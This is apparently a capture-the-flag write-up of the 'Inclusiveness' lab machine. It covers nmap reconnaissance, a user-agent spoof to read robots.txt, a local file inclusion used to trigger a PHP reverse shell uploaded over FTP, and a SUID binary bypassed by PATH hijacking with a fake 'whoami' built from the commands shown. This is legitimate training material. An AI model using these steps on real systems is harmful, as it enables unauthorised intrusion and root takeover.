 ```yaml
---
layout: default
title : muzec - Inclusiveness Writeup
---
```


![Image](https://imgur.com/VyujERM.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
Nmap scan report for 192.168.194.14
Host is up (0.28s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Apr 22 22:32 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.194
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.09 seconds
```

3 open ports let check out the FTP first but when i check it was empty only a pub folder so let move to port 80 but also checking the robots.txt first i got `You are not a search engine! You can't read my robots.txt! `

![Image](https://imgur.com/DTBIe7z.png)

Strange let try to mess with the user agent adding `Googlebot`.

![Image](https://imgur.com/p09S3bd.png)

Applying it and refreshing the page boom we have the directory and have access to the robots.txt.

![Image](https://imgur.com/uhgqn9Q.png)

![Image](https://imgur.com/jh92gGP.png)

So clicking on the english a strange looking URL probably a LFI or RFI vulnerable let try it.

![Image](https://imgur.com/efoIa9H.png)

And boom it vulnerable so i go back to the ftp and upload a reverse shell file in php.

![Image](https://imgur.com/jkSw5F0.png)

now let start a listener and access the file in the FTP path.

![Image](https://imgur.com/elj46kN.png)

Now let go back to our listener.

![Image](https://imgur.com/VwJNdr2.png)

Boom we have shell now let enumerate more.

```
#include <stdio.h>
    #include <unistd.h>
    #include <stdlib.h>
    #include <string.h>

    int main() {

        printf("checking if you are tom...\n");
        FILE* f = popen("whoami", "r");

        char user[80];
        fgets(user, 80, f);

        printf("you are: %s\n", user);
        //printf("your euid is: %i\n", geteuid());

        if (strncmp(user, "tom", 3) == 0) {
            printf("access granted.\n");
        setuid(geteuid());
            execlp("sh", "sh", (char *) 0);
        }
    }
```
Something interesting in the home directory And damn i I had difficulty exploiting this bug. It was a custom SUID binary owned by root! This was clearly the easiest way to escalate privileges. The program appeared to run the command "whoami", take the output of that command and store it in a buffer (user), then check if the first three bytes of that buffer were "tom". 

So i decided to create my own "whoami" binary that always returned "tom". I created the binary (also named whoami), changed my $PATH variable to first search in the /tmp/ directory for binaries, then executed the SUID rootshell to gain root privileges. 

```
echo '#include <stdio.h>' > whoami.c

echo 'main(){printf("tom");}' >> whoami.c

gcc whoami.c -o whoami && chmod +x whoami
```

Now `export PATH=/tmp:$PATH` .

![Image](https://imgur.com/4aosnmP.png)

Boom we are root.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
